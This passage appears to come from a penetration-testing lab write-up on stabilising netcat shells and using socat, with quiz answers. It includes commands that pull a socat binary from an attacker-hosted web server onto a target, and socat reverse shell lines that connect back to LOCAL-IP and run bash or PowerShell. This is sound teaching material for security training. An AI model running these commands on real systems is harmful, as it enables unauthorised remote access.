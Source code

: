 Prepending with rlwrap gives us a much more fully featured shell. This technique is useful for getting better Windows shells which usually are very difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise by using Ctrl+Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

#### Technique 3: Socat

Use an initial netcat shell as a stepping stone into a more fully-featured socat shell. To accomplish this method of stabilisation first we would compile a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true "Github") up to the target machine. A typical way to achieve this would be using a web-server on the attacking machine inside the directory containing your socat binary `sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget `wget <LOCAL-IP>/socat -O /tmp/socat`.

In powershell the command would be slightly different `Invoke-WebRequest -uri LOCAL-IP/socat.exe -outfile C:\\Windows\temp\socat.exe`

---

With any of the above techniques, it's useful to be able to change you terminal tty size. In another terminal `stty -a` can be ran to findout the current rows and columns for your terminal. In reverse/bind shell this can be achieved through:
* `stty rows NUMBER`
* `stty cols NUMBER`

This will change the registered height and width of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

**Questions**

    1. How would you change your terminal size to have 238 columns?

`stty cols 238`

    2. What is the syntax for setting up a Python3 webserver on port 80?

`sudo python3 -m http.server 80`

## Socat

Socat is similar to netcat in some ways but fundamentally different in many others. The easiest way to think about socat is as a connector between two points.

#### Reverse Shells

`socat TCP-L:<PORT>` - basic syntax for a socat reverse shell

Socat takes in two points (a listening port and standard input) and then connects them together. The shell will be unstable but this will work on both Linux and Windows.

On Windows machines `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` is used to connect back. For a Linux target `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` is the equivalent command.

#### Bind Shells
